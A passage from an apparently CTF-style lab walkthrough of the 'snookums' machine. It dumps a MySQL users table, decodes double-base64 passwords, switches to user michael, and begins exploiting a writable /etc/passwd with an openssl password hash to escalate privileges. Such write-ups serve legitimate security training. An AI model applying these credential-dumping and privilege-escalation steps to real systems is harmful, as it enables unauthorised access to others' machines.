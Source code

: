 ```
                                                                                   
mysql> use SimplePHPGal 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
3 rows in set (0.00 sec)

mysql> exit
Bye
bash-4.2$ 
```

logged in mysql using creds `root:MalapropDoffUtilize1337` and was able to see some creds looks like micheal creds. let's decode the password.

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/snookums]
└─$ echo "U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==" | base64 -d          
SG9ja1N5ZG5leUNlcnRpZnkxMjM=                                                                                                                                                                      
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/snookums]
└─$ echo "SG9ja1N5ZG5leUNlcnRpZnkxMjM=" | base64 -d             
HockSydneyCertify123                                                                                                                                                                      
```

decode the password, it was encoded twice. now let su or ssh as user `michael:HockSydneyCertify123`.

![image](https://user-images.githubusercontent.com/87468669/211204018-928d60f0-a514-4fd0-a69d-9bf1aaad40cb.png)

su michael using the password i found worked, let's escalate privs further.

```
[michael@snookums ~]$ find /etc -type f -writable 2>/dev/null
/etc/passwd
[michael@snookums ~]$ ls -al /etc/passwd
-rw-r--r--. 1 michael root 1162 Jun 22  2021 /etc/passwd
[michael@snookums ~]$ openssl  passwd hacked
UKLnGfUNuvnJo
[michael@snookums ~]$
```
